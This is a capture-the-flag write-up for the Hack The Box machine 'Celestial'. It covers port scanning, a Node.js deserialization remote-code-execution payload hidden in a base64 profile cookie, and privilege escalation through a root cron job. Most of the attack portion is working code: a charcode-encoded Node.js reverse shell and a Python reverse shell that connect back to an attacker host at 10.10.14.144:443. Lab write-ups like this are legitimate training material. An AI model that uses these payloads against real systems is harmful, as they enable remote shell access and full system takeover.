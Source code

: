 # Celestial Write Up

> - node.js de-serialize issue lead to shell
> - crontab for root

## Enumeration

I started off with a masscan for all 65535 ports and follow it up by nmap

```
root@kali:~/Desktop/HTB/Celestial# nmap -sS -sV -sC -p 3000 10.10.10.85      

Starting Nmap 7.60 ( https://nmap.org ) at 2018-08-25 22:22 +08
Nmap scan report for 10.10.10.85
Host is up (0.36s latency).

PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.16 seconds

```

Important information we got the scan was, port 3000 is running `node.js` 

A simple curl command return the following.

```
root@kali:~/Desktop/HTB/Celestial# curl -vvv 10.10.10.85:3000
* Rebuilt URL to: 10.10.10.85:3000/
*   Trying 10.10.10.85...
* TCP_NODELAY set
* Connected to 10.10.10.85 (10.10.10.85) port 3000 (#0)
> GET / HTTP/1.1
> Host: 10.10.10.85:3000
> User-Agent: curl/7.60.0
> Accept: */*
> 
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Set-Cookie: profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D; Max-Age=900; Path=/; Expires=Sat, 25 Aug 2018 14:38:22 GMT; HttpOnly
< Content-Type: text/html; charset=utf-8
< Content-Length: 12
< ETag: W/"c-8lfvj2TmiRRvB7K+JPws1w9h6aY"
< Date: Sat, 25 Aug 2018 14:23:22 GMT
< Connection: keep-alive
< 
* Connection #0 to host 10.10.10.85 left intact
<h1>404</h1>r
```

Note the `cookie`

```
profile=eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ%3D%3D
```

%3D decode to `=` which tell us that this is a base64 string. 

This show us that we are setting a cookie with name `profile` of the following value

```
{"username":"Dummy","country":"Idk Probably Somewhere Dumb","city":"Lametown","num":"2"}
```

By playing around with the json. I managed to get some errors

![errors](https://github.com/lycjackie/boot2root/images/celestial.png)

with some googling, I managed to find a nodejs shell code. https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py

So the final payload for the cookie look something like this

```
{"rce":"_$$ND_FUNC$$_function(){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,49,52,52,34,59,10,80,79,82,84,61,34,52,52,51,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```



### Getting Root

Once I am in the system. The first suspicious file I see was

```
sun@sun:~$ ls -la
ls -la
total 152
...
-rw-r--r--  1 root root   21 Aug 25 10:30 output.txt
sun@sun:~$ date
date
Sat Aug 25 10:36:10 EDT 2018
```

This particular file in sun `home` directory is owned by root and the `date` command show that the system time is only 1 min after modification of the file. Which lead me to think that there is a cronjob running as root behind.



After playing around with the home directory. I found the following

```
sun@sun:~/Documents$ ls -la
ls -la
total 16
drwxr-xr-x  2 sun sun 4096 Mar  4 15:08 .
drwxr-xr-x 21 sun sun 4096 Aug 25 10:01 ..
-rw-rw-r--  1 sun sun   29 Sep 21  2017 script.py
-rw-rw-r--  1 sun sun   33 Sep 21  2017 user.txt
sun@sun:~/Documents$ cat script.py
cat script.py
print "Script is running..."
sun@sun:~/Documents$ cat ../output.txt
cat ../output.txt
Script is running...

```

Note that the content of `output.txt` is identical to `script.py`. Which lead me to think that maybe root is running the script periodically.

Also note that we own the file for `script.py` which also mean that we can write anything into the file.

So using our favorite pentest monkey reverse shell for python

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.144",443))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

and 5 mins of waiting. 

I managed to get root

```
root@sun:~# wc -c root.txt
wc -c root.txt
33 root.txt
root@sun:~# whoami
whoami
root
root@sun:~# 
```



### FIN

After getting root. `crontab -l` show the following

```
*/5 * * * * python /home/sun/Documents/script.py > /home/sun/output.txt; cp /root/script.py /home/sun/Documents/script.py; chown sun:sun /home/sun/Documents/script.py; chattr -i /home/sun/Documents/script.py; touch -d "$(date -R -r /home/sun/Documents/user.txt)" /home/sun/Documents/script.py

```




